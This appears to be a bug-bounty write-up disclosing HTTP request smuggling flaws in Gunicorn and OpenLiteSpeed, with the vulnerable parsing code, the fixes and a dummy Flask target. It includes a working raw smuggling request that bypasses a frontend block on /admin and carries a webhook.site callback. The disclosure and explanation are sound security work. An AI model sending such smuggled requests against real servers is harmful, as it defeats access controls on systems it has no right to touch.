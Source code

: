 ```yaml
---
title: 'Caught in Transit: A Deep Dive into Two HTTP Request Smuggling Vulnerabilities'
date: 2024-08-08 22:38:40
author: Sayooj B Kumar
author_url: https://twitter.com/_1nt3rc3pt0r_
categories:
 - Web Exploitation
 - Bug Bounty
 - Zeroday
tags:
 - Gunicorn
 - OpenLiteSpeed
 - CVE
---
```


**tl;dr**

+ CVE-2024-6827 
+ CVE-2024-31617
<!--more-->

# Gunicorn

<br>

## Introduction 

Iam usually not a great fan of Request smuggling since its exploitability is laregly depeneded on the combinations of the FE BE servers.This all started [Yadhu Krishna](https://yadhu.in/about/) found a [zeroday](https://yadhu.in/2024/05/11/Exploiting-HTTP-Request-Smuggling-in-Node.js-and-Gunicorn/) in gunicorn and decided to Host an internal challenge on the Same where he used combination of openlitespeed as a frondend proxy server and gunicorn as BE server.
<br>

## Diving into Source Code

I initially started looking into Gunicorn’s source code, specifically where they handle the [TE and CL headers](https://github.com/benoitc/gunicorn/blob/master/gunicorn/http/message.py#L169), and my attention was immediately drawn to something at the very first stage.

```
elif name == "TRANSFER-ENCODING":
                if value.lower() == "chunked":
                    if chunked:
                        raise InvalidHeader("TRANSFER-ENCODING", req=self)
                    chunked = True
```
When TRANSFER-ENCODING is passed as a header, Gunicorn strictly checks if the value exactly matches to `chunked`, which looks like a valid implementation to catch troublemakers like `TRANSFER-ENCODING: chunkedxd`. But what if `Transfer-Encoding: chunked, gzip` is passed? This is a legitimate header, and Gunicorn, as per its implementation, is not expecting stacked header values. This helped me to imagine a hypothetical situation where we pass valid headers of TE and CL where FE server consider `TRANSFER-ENCODING` since it has precedence over `Content-Length` while Gunicorn try to strictly compare the value and fail since we have stacked values in `chunked, gzip` and continue to proceed with `Content-Length` a TE CL request smuggling. 
<br>

## Proof of Concept

Consider the following dummy application where the /admin route is forbidden by the frontend server(OpenLiteSpeed)

```python
from flask import Flask, render_template, request, redirect, Response
import requests 

app = Flask(__name__)


@app.before_request
def handle_chunking():
    request.environ["wsgi.input_terminated"] = True

@app.route("/admin")
def reached():
    print("welcome Admin")
    return "Welcome Admin"

@app.route("/", methods=["GET", "POST"])
def get():
    return "HELLO NON-SMUGGLER"


if __name__ == "__main__":
    app.run(port=8000)
```
<br>

### Exploit

```
POST / HTTP/1.1
Host: 172.24.10.169
Content-Length: 6
Transfer-Encoding: chunked,gzip

73

GET /admin?callback1=https://webhook.site/717269ae-8b97-4866-9a24-17ccef265a30 HTTP/1.1
Host: 172.24.10.169

0
```
<br>

### Video Poc
<div style="position: relative; width: 100%; padding-top: 42.86%; overflow: hidden;">
    <iframe src="https://drive.google.com/file/d/1MxB3i8Rzz9rn3H8sa7wP1YO2_aoIGGOW/preview" style="position: absolute; top: 0; left: 0; width: 100%; height: 100%; border: 0;" allow="autoplay"></iframe>
</div>
<br>

## Fix

The value of TRANSFER-ENCODING is converted into an array using a comma as the delimiter and then compared.
```python
 for (name, value) in self.headers:
            if name == "CONTENT-LENGTH":
                if content_length is not None:
                    raise InvalidHeader("CONTENT-LENGTH", req=self)
                content_length = value
            elif name == "TRANSFER-ENCODING":
                # T-E can be a list
                # https://datatracker.ietf.org/doc/html/rfc9112#name-transfer-encoding
                vals = [v.strip() for v in value.split(',')]
                for val in vals:
                    if val.lower() == "chunked":
```

<br>
<br>
<br>

# OpenLiteSpeed
<br>

## Introduction

Since the frontend server used for the challenge was OpenLiteSpeed, I was trying out different requests and inspecting them to exploit Gunicorn. I encountered a common vulnerable implementation related to request smuggling.
<br>

## Diving into Source Code

OpenLiteSpeed was comparing if the value of `transfer-encoding` starts with `chunked`. This would intercept an invalid header `TRANSFER-ENCODING: chunkedxd` as a valid `TRANSFER-ENCODING`, while the other server rejects it and falls back to `Content-Length`. Any BE server that integrates with this vulnerable version of OpenLiteSpeed can be easily exploited.

```c
if (strncasecmp(pCur, "chunked", 7) == 0) 

```
<br>

## POC

<div style="position: relative; width: 100%; padding-top: 42.86%; overflow: hidden;">
    <iframe src="https://drive.google.com/file/d/1v7aej_RA1lSf_l5ZcxRH2PjYniQRqNux/preview" style="position: absolute; top: 0; left: 0; width: 100%; height: 100%; border: 0;" allow="autoplay"></iframe>
</div>
<br>

## Fix

```c
if (strncasecmp(pCur, "chunked", 7) == 0
            && m_commonHeaderLen[index] == 7)
```

# External Links

- [Gunicorn public report](https://huntr.com/bounties/1b4f8f38-39da-44b6-9f98-f618639d0dd7)
- [OpenliteSpeed Secure Release](https://github.com/litespeedtech/openlitespeed/releases/tag/v1.8.1)
- [CVE-2024-31617](https://www.cve.org/CVERecord?id=CVE-2024-31617)
- [CVE-2024-6827](https://nvd.nist.gov/vuln/detail/CVE-2024-6827)
